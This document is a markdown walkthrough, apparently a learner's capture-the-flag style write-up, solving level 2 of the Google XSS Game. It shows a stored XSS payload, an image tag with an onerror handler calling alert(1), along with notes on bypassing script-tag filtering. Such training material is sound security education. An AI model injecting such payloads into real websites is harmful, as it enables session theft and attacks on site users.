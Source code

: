 ```markdown
# 🎮 Google XSS Game – Level 2: Stored XSS

**Level Type:** Stored XSS – Inside `<blockquote>` HTML tag  
**Difficulty:** Beginner

---

## 🔗 Level URL  
[https://xss-game.appspot.com/level2/frame](https://xss-game.appspot.com/level2/frame)

---

## 🧪 Steps (My Approach)

1. ✅ Typed `flex0hi`  
   - Reflected as:  
     ```html
     <blockquote>flex0hi</blockquote>
     ```
   - ❌ No execution — just plain text.

2. ✅ Tried breaking the attribute with:  
   ```
   hi">
   ```
   - Reflected as:  
     ```html
     <blockquote>hi"></blockquote>
     ```
   - ❌ Still no script executed.

3. ✅ Injected classic XSS using `<img>` tag:  
   ```html
   <img src=x onerror="alert(1)">
   ```
   - 🎉 Success! Alert triggered.
   - XSS is **stored** and runs again after refresh.

---

## ✅ Final Payload

```html
<img src=x onerror="alert(1)">
```

---

## 🛠 Tools Used  
- Browser (manual testing)  
- DevTools → “View Page Source”  
- Common XSS payloads like `<img onerror>`

---

## 🎯 Goal  
Trigger a `JavaScript alert()` using **Stored XSS** via user input rendered inside HTML.

---

## 🧠 Notes  
- Input is rendered inside a `<blockquote>` tag.  
- No escaping or sanitization is applied.  
- Script tag (`<script>`) may be filtered, but attribute-based XSS (like `onerror`) works perfectly.  
- Comment (`<!--`) not needed in this level.

---

## ✅ Status: Solved
```

